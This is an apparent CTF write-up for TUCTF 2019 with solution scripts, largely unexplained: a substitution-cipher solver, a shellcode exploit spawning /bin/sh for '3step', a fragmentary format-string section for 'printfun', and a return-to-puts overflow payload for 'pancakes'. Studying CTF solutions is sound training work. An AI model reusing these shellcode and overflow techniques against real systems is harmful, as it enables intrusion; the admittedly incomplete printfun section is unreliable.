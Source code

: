 # TUCTF 2019 

![image](https://user-images.githubusercontent.com/25066959/70835878-744da180-1dcc-11ea-9016-c3a200a13f30.png)

This is a shitty writup I did this days after and the TUCTF site was down so no points and I didnt write down the flags... So solutions only with no real explenation... Im just trying to get more of these out there and I really let the ball drop this time.    


Title                         | Category     
----------------------------- | ------------
Crypto Infinit		      | Crypto	     
3step					  | Pwn   
printfun				  | Pwn 
pancakes				  | Pwn

# Crypto Infinit (crypto)    

```python 
#!/usr/bin/env python2
​
from pwn import *
import string
​
p = remote("chal.tuctf.com", 30102)
​
# Level 0 - 4
for i_ in range(5):
​
    p.sendlineafter("Give me text:", string.ascii_uppercase[::-1])
    p.recvuntil("encrypted is ")
    mapping = dict(zip(p.recvline().strip().split(" "), string.ascii_uppercase[::-1]))
​
    for i in range(50):
        p.recvuntil("Decrypt ")
        encrypted = p.recvline().strip().split(" ")
​
        answer = ""
        for k in encrypted:
            answer += mapping[k]
​
        p.sendline(answer)
​
​
# Level 5
plaintext = ''.join([c * 8 for c in string.ascii_uppercase])
p.sendlineafter("Give me text:", plaintext)
p.recvuntil("encrypted is ")
​
mapping = {}
enc = p.recvline().strip().split(" ")
for i in range(len(enc)):
    mapping[i % 8] = mapping.get(i % 8, {})
    mapping[i % 8][enc[i]] = plaintext[i]
​
print mapping
for i in range(50):
    p.recvuntil("Decrypt ")
    encrypted = p.recvline().strip().split(" ")
​
    answer = ""
    for i, k in enumerate(encrypted):
        answer += mapping[i % 8][k]
​
    p.sendline(answer)
​
# for i_ in range(5):
​
#     p.sendlineafter("Give me text:", string.ascii_uppercase[::-1])
#     p.recvuntil("encrypted is ")
#     mapping = dict(zip(p.recvline().strip().split(" "), string.ascii_uppercase[::-1]))
​
#     for i in range(50):
#         p.recvuntil("Decrypt ")
#         encrypted = p.recvline().strip().split(" ")
​
#         answer = ""
#         for k in encrypted:
#             answer += mapping[k]
​
#         p.sendline(answer)
​
p.sendlineafter("Give me text:", "ABAB")
p.interactive()
```     

# 3step (pwn)    

```python
#!/usr/bin/python
from pwn import *
import sys
#context.log_level = "debug"
#p = process("./3step")
p = process("nc chal.tuctf.com 30504".split(" "))
raw_input("waiting... ")
p.readline()
p.readline()
heap = int(p.readline(), 16)
stack = int(p.readline(), 16)
print "heap = {}".format(hex(heap))
print "stack = {}".format(hex(stack))

code = """
xor eax, eax
mov ebx, {}
xor ecx, ecx
xor edx, edx
mov al, 0x0b
int 0x80""".format(stack)
shellcode = asm(code)
print len(shellcode)
binsh = "/bin/sh\x00"
heap = p32(heap)
tot = ""

tot += shellcode + (0x12 - len(shellcode)) * 'a'
tot += binsh + (0x10 - len(binsh)) * 'a'
tot += heap
p.recv()
p.send(tot)
#p.send(shellcode)
#p.send("/bin/sh\x00")
#p.send(p32(heap))
p.interactive()


p.kill()
```

# printfun (pwn)
this challenge was a format sring vulnerability 

```python
#!/usr/bin/python
# ebp - 0xc
# ebp - 0x10
```    
output:
```
# 6
4
%6$s
# 7
60
\x95\xa4\x14F\xfe\xfe��M\x96UF\x11Ǧ\x89�#\x18X\xb7\x87\x84$\xbb�
                                                                \xaaƓ\x1c@\x17?�U\x04i
\x07�Ub)\x0b\xb7\xb6\x03y\xbe\xac\x1d7\x7f\x97\xfe
```    
exploit:   
```
#include <stdio.h>
#include <stdlib.h>

int main()
{
  int n;
  scanf("%d", &n);
  srand(n);
  printf("%d\n", rand());
  return 0;
}
```    

# Pancakes (Pwn)
I remember being given the password it was password the payload is this:   
```python
#!/usr/bin/python
from pwn import *
payload = 'a' * (0x30-4)
payload += p32(0x8049060) # puts
payload += p32(0x80492cd) # pwnme
payload += p32(0x804c060) # flag
print payload
```    